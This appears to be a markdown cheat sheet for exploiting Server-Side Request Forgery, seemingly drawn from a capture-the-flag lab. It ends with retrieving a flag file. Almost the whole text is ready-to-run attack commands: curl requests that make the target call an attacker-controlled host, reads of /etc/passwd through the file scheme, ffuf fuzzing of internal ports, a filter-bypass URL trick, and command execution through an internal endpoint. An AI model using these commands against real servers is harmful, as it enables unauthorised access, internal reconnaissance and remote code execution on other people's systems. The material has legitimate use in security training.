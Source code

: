 # Cheat Sheet: Server-Side Request Forgery (SSRF) Exploitation

## Introduction
- SSRF allows attackers to exploit servers to request internal/external resources.
- A successful SSRF attack can reveal sensitive information and lead to Remote Code Execution (RCE).

## Perform SSRF Enumeration
1. **Nmap Scan:**
   ```bash
   nmap -sT -T5 --min-rate=10000 -p- $TARGET
   ```

2. **Curl Commands:**
   - Initial request:
     ```bash
     curl -i -s http://$TARGET
     ```
   - Follow redirects:
     ```bash
     curl -s -i -L http://$TARGET
     ```

## Testing SSRF
1. **Netcat Listener:**
   ```bash
   nc -lnvp 8080
   ```

2. **Curl Test:**
   ```bash
   curl -i -s "http://$TARGET/load?q=http://$ATTACKER:8080"
   ```

## Exploiting with Different Schemas
1. **HTTP Schema:**
   - Create `index.html` on attacker machine.
   - Start HTTP server:
     ```bash
     python3 -m http.server $PORT
     ```
   - Curl Command:
     ```bash
     curl -i -s "http://$TARGET/load?q=http://$ATTACKER:8000/index.html"
     ```

2. **FTP Schema:**
   - Set up FTP server on attacker:
     ```bash
     sudo pip3 install twisted
     sudo python3 -m twisted ftp -p 21 -r ~
     ```
   - Curl Command:
     ```bash
     curl -i -s "http://$TARGET/load?q=ftp://$ATTACKER/index.html"
     ```

3. **File Schema:**
   - Retrieve `/etc/passwd`:
     ```bash
     curl -i -s "http://$TARGET/load?q=file:///etc/passwd"
     ```

## Further Exploitation
1. **Port Fuzzing:**
   - Create port wordlist:
     ```bash
     for port in {1..65535}; do echo $port >> ports.txt; done
     ```
   - Issue request on a random port:
     ```bash
     curl -i -s "http://$TARGET/load?q=http://127.0.0.1:1"
     ```
   - Fuzz ports using ffuf:
     ```bash
     ffuf -w ./ports.txt:PORT -u "http://$TARGET/load?q=http://127.0.0.1:PORT" -fs 30
     ```

2. **Identify Open Port:**
   - Interact with services:
     ```bash
     curl -i -s "http://$TARGET/load?q=http://127.0.0.1:5000"
     ```

## Exploiting Internal.app.local
1. **Curl Interaction:**
   - Interact with internal:
     ```bash
     curl -i -s "http://$TARGET/load?q=http://$INTERNAL/load?q=index.html"
     ```

2. **Bypass Filter Protection:**
   - Bypass filter:
     ```bash
     curl -i -s "http://$TARGET/load?q=http://$INTERNAL/load?q=http::////127.0.0.1:1"
     ```

3. **Port Fuzzing for Internal:**
   - Fuzz ports with different Content-Length:
     ```bash
     ffuf -w ports.list:PORT -u "http://$TARGET/load?q=http://$INTERNAL/load?q=http::////127.0.0.1:PORT" -fs 100
     ```

4. **Retrieve Interesting Files:**
   - Explore on port 5000:
     ```bash
     curl -i -s "http://$TARGET/load?q=http://$INTERNAL/load?q=http::////127.0.0.1:5000/"
     ```

5. **Command Execution:**
   - Execute commands:
     ```bash
     curl -i -s "http://$TARGET/load?q=http://$INTERNAL/load?q=http::////127.0.0.1:5000/runme?x=id"
     ```

6. **URL-encode Payloads:**
   - Using Cyberchef or JQ for URL-encoding.

7. **Retrieve Flag:**
   - Retrieve flag:
     ```bash
     curl -i -s "http://$TARGET/load?q=http://$INTERNAL/load?q=http::////127.0.0.1:5000/runme?x=cat%2520/root/flag.txt"
     ```
